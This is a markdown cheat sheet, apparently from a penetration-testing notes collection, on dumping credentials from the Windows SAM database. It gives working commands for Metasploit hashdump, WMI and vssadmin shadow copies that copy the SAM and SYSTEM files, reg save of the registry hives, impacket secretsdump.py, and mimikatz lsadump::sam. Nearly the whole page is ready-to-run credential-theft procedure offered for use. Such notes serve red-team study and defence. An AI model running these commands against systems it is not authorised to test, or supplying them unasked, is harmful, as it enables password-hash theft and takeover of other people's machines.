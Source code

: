 #msf #wmi #vssadmin #reg #mimikatz #impacket
# SAM Database
- Local database of local users and their credentials. 
- Cannot be read by any user while windows is running.
- To dump credentials from the SAM database, SYSTEM is also required. [Credentials](Credentials.md)
### Metasploit
- Metasploit's `hashdump` can be used to dump the SAM database.
- Requires administrative privileges.
```
meterpreter > hashdump
```
### Fetching SAM and SYSTEM using Volume shadow copy
- This can be used to fetch SAM and SYSTEM database by creating a shadow copy of the windows installation.
- Requires administrative privileges.
- Using WMI to call the shadow copy function
```powershell
# Create a shadow copy of the C Drive
wmic shadowcopy call create Volume='C:\'
# Verify creation
vssadmin list shadows
# "Shadow Copy Volume" property has the location of the shadow copy 
# SAM and SYSTEM can be copied from this path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
### Fetching SAM and SYSTEM from Registry
- Registry can be used to fetch the SAM and SYSTEM hives.
- Requires administrative privileges.
```powershell
reg save HKLM\sam C:\Users\Administrator\sam-hive
reg save HKLM\system C:\Users\Administrator\system-hive
```
### Dumping SAM using impacket
- secretsdump.py can be used to dump the sam database
```bash
./secretsdump.py -sam sam-hive -system system-hive LOCAL
```
### Mimikatz
- Mimikatz can be used to dump SAM database directory or from the SAM and SYSTEM hives.
```powershell
# dump sam database online
privilege::debug
token::elevate
lsadump::sam
# or via saved sam and system files/registry hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
